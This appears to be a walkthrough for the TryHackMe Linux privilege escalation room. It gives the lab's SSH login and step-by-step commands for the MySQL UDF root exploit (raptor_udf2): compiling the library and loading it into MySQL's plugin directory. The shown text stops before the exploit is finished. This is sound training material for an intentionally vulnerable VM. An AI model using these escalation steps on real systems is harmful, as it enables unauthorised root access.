 #FreeRoom 
https://tryhackme.com/room/linuxprivesc


This room is aimed at walking you through a variety of Linux Privilege Escalation techniques. To do this, you must first deploy an intentionally vulnerable Debian VM. This VM was created by Sagi Shahar as part of his local privilege escalation workshop but has been updated by Tib3rius as part of his Linux Privilege Escalation for OSCP and Beyond! course on Udemy. Full explanations of the various techniques used in this room are available there, along with demos and tips for finding privilege escalations in Linux.

Make sure you are connected to the TryHackMe VPN or using the in-browser Kali instance before trying to access the Debian VM!

SSH should be available on port 22. You can login to the "user" account using the following command:

```
ssh user@MACHINE_IP

password321
```

The next tasks will walk you through different privilege escalation techniques. After each technique, you should have a root shell. **Remember to exit out of the shell and/or re-establish a session as the "user" account before starting the next task!**


```
Run the "id" command. What is the result?

uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev)

```


## service exploits 

The MySQL service is running as root and the "root" user for the service does not have a password assigned. We can use a [popular exploit](https://www.exploit-db.com/exploits/1518) that takes advantage of User Defined Functions (UDFs) to run system commands as root via the MySQL service.

```
cd /home/user/tools/mysql-udf
ls
raptor_udf2.c

# compile the exploit
gcc -g -c raptor_udf2.c -fPIC  
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

ls
raptor_udf2.c  raptor_udf2.o  raptor_udf2.so

# Connect to the MySQL service as the root user with a blank password:
mysql -u root

# Execute the following commands on the MySQL shell to create a 
# User Defined Function (UDF) "do_system" using our compiled exploit:

use mysql;

create table foo(line blob);

insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));

select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

```
